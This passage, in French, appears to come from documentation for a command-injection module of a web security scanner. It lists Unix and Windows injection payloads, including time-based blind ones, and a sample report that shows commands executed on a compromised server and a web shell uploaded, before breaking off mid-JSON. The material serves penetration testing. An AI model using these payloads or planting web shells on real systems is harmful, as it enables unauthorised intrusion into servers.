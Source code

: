### Payloads de détection (Unix)

```bash
; id
& id
| id
$(id)
`id`
|| id
&& id
```

### Payloads de détection (Windows)

```cmd
& dir
| dir
|| dir
&& dir
; dir
```

### Payloads temporisés

Ces payloads sont utilisés pour détecter les injections en aveugle par inférence de temps :

```bash
# Unix
; sleep 5
& ping -c 5 127.0.0.1

# Windows
& ping -n 5 127.0.0.1
& timeout 5
```

## Exemple de rapport

Le module Command Injection génère des rapports détaillés dans différents formats :

```json
{
  "timestamp": "2023-07-02T10:32:18",
  "target": "https://exemple.com/ping?host=8.8.8.8",
  "vulnerabilities": [
    {
      "type": "COMMAND_INJECTION",
      "parameter": "host",
      "method": "GET",
      "os_detected": "unix",
      "technique": "standard",
      "payload": "8.8.8.8 & id",
      "proof": "uid=33(www-data) gid=33(www-data) groups=33(www-data)",
      "severity": "critical",
      "commands_executed": {
        "System info": "Linux web-server 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64",
        "User info": "uid=33(www-data) gid=33(www-data) groups=33(www-data)",
        "Network info": "eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500 inet 192.168.1.5",
        "Files accessible": "total 80K -rw-r--r-- 1 root root 1.4K Oct 12 2019 index.php"
      },
      "shell_uploaded": {
        "success": true,
        "url": "https://exemple.com/tmp/shell.php",
        "test_cmd": "id"
```